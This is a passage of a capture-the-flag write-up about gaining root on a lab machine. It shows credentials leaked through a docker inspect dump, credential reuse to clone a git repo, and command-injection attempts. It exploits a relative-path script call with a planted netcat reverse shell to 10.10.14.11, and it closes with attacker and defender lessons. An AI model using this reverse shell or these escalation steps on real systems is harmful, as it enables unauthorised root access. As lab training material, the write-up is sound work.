xxxxxxxxxx{"Id": "f84a6b33fb5a09bcda93aa23ed0203e1597548a53368ea37c5e6a4d94f9334f8",..."Name": "/mysql_db",..."Mounts": [{"Type": "bind","Source": "/root/scripts/docker/mysql","Destination": "/var/lib/mysql","Mode": "rw","RW": true,"Propagation": "rprivate"}],"Config": {..."ExposedPorts": {"3306/tcp": {},"33060/tcp": {}},..."Env": ["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF", "MYSQL_USER=gitea", "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh", "MYSQL_DATABASE=gitea", "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "GOSU_VERSION=1.14", "MYSQL_MAJOR=8.0", "MYSQL_VERSION=8.0.31-1.el8", "MYSQL_SHELL_VERSION=8.0.31-1.el8"],..."Labels": {..."com.docker.compose.project.config_files": "docker-compose.yml","com.docker.compose.project.working_dir": "/root/scripts/docker",...}},"NetworkSettings": {..."Ports": {"3306/tcp": [{"HostIp": "127.0.0.1","HostPort": "3306"}],"33060/tcp": null},...}}
Even better, in addition to the mysql database credential from the other dump, this reveals the root credential for the mysql database!
- root / jI86kGUuj87guWr3RyF
- gitea / yuiu1hoiu4i5ho1uh
Hopefully, I can log in to the mysql database, and leak the flag using a file read from within, with something like SELECT LOAD_FILE("/root/root.txt") 🤞

😓 Bummer. Can't connect to mysql. I don't think it's a matter of bad credentials... I'm not sure why.
Perhaps those credentials are just a distraction, but it's also possible they are re-used somewhere. First, I'll try SSH:

Nope... Maybe they're git credentials? Let's review the facts:
/opt/scriptshad a.gitdirectory that I couldn't get into.By process of elimination, we know what git user would be necessary.
- It's not
cody. We already saw that they only have one repo. - Therefore it must be
administrator.
- It's not
The name of the repo is probably
scripts, because the.gitdirectory resides within/opt/scripts.
To test this out, I'll try cloning the repo. First, I'll use administrator / jI86kGUuj87guWr3RyF:

Nope. Next I'll use administrator / yuiu1hoiu4i5ho1uh:

Success! The repo is cloned to a directory where I can read through it.
My knee-jerk reaction is to clone the repo, modify the python script system-checkup.py to pop a root shell, then commit and push, and finally fetch the changes down to /opt/scripts. Unfortunately, a quick check shows that this will not work:

Oh well, the next best thing is to just read through the code and look for a way to privilege escalate.
This is the source code for system-checkup.py. Since we control the --format argument, this code becomes vulnerable:
xxxxxxxxxximport subprocessimport sys actions = ['full-checkup', 'docker-ps','docker-inspect'] def run_command(arg_list): r = subprocess.run(arg_list, capture_output=True) if r.stderr: output = r.stderr.decode() else: output = r.stdout.decode() return output
def process_action(action): if action == 'docker-inspect': try: _format = sys.argv[2] if len(_format) == 0: print(f"Format can't be empty") exit(1) container = sys.argv[3] arg_list = ['docker', 'inspect', '--format', _format, container] print(run_command(arg_list)) except IndexError: print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>") exit(1) except Exception as e: print('Something went wrong') exit(1) elif action == 'docker-ps': try: arg_list = ['docker', 'ps'] print(run_command(arg_list)) except: print('Something went wrong') exit(1) elif action == 'full-checkup': try: arg_list = ['./full-checkup.sh'] print(run_command(arg_list)) print('[+] Done!') except: print('Something went wrong') exit(1)
if __name__ == '__main__': try: action = sys.argv[1] if action in actions: process_action(action) else: raise IndexError except IndexError: print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)') ... exit(1)One by one, let's take a look at the functions this script performs:
docker-ps: This code is secure. It has no opportunities for user input and doesn't seem like it can be abused at all.
docker-inspect: Initially, it looks like there is a vulnerability here. If it were to work, the exploit would be simple: find a way to combine multiple arguments into one. Seems easy, right? Unfortunately, I was not successful in trying this. I tried out many techniques referenced in the relevant PayloadAllTheThings page on Command Injection. Some of my attempts were the following:
docker-inspect "{{.Name}} mysql_db" "; id"docker-inspect '{{.Name}}{$IFS}mysql_db' ';{$IFS}id'docker-inspect "{{.Name}}{$IFS}mysql_db" ";{$IFS}id"docker-inspect "{{{.Name}},mysql_db}" ";{$IFS}id"- ... and many many variants of similar ideas.
full-checkup:
At face value, this function also looks secure. After all, it doesn't take any user input, and the arg_list is static, right?
Wrong! There is definitely something we can affect about it: the relative-path call to full-checkup.sh.
💡 Relative paths like this are relative to the location from which the binary was called, not the location of the binary itself. Thats what makes using a relative path so inherently insecure: we can make it reference a script called
full-checkup.shplaced in any directory, as long as it is adjacent to where we callsystem-checkup.pyfrom.
Continuing to work out of /tmp, let's create a special version of full-checkup.sh, one that pops a reverse shell.
xxxxxxxxxxcd /tmpmkdir -p ./scripts/specialvim ./scripts/special/full-checkup.shchmod 755 ./scripts/special/full-checkup.shcd scripts/special/
the contents of the special full-checkup.sh are the following:
xxxxxxxxxx
rm /tmp/f2mkfifo /tmp/f2cat /tmp/f2|/bin/sh -i 2>&1|nc 10.10.14.11 1337 >/tmp/f2Next, on the attacker machine, open up the firewall and create a new netcat listener:
xxxxxxxxxxsudo ufw allow from $RADDR to any port 1337 proto tcpbashnc -lvnp 1337Then, back on the target machine (via SSH), trigger the root reverse shell:

Check back at the netcat listener on the attacker box:

🎉 Hooray, a root shell!
Now just simply cat out the flag to finish the box.
LESSONS LEARNED
Attacker
During privilege escalation, always look for relative paths in any program that you might use for PE. It's such an easy PE method that it should always be the first thing you attempt.
Keep two lists on-hand at all times:
- A list of discovered credentials (full credentials, or just passwords, or just usernames)
- A list of services you've discovered on the box that require a login. SSH should almost always be at the top of this list.
Whenever you add an entry to either list, go through both lists fully and check for credential re-use with any credential-service pair you haven't yet tried. It helps to be methodical.
If you're trying to perform some kind of code injection or SSTI or whatever, keep in mind there are often ways around encoding issues. Use tools like
base64orhexdumpearly and often. If you're working in Python, tryurllib.parse
Defender
- It is not enough to filter untrusted inputs: sometimes within software, intermediate results should also be untrusted. It would have been much more difficult to find the initial RCE if the app.py had properly escaped the output of
Searchor. With the rise of prompt injection, this mindset is increasingly important. - Do not use relative paths in an insecure way. Security aside, it also breaks portability!
In python, an easy way to securely use a relative path is by using
os.path.dirname(__file__)to get the directory where the program resides and usingos.path.join(base_dir, '/relative/path')to - Never store passwords in plaintext. Does this even need explanation? Better yet, try externalizing the risk by using some kind of SSO service.
- Credential re-use will always come back to bite you. Also, never leave credentials for one user inside a file owned by another user. Please just use a password manager.
- Docker configs can expose sensitive information (like credentials). Any user that can run docker commands or read the docker compose file can gain access to that sensitive information.
Thanks for reading
🤝 🤝 🤝 🤝 @4wayhandshake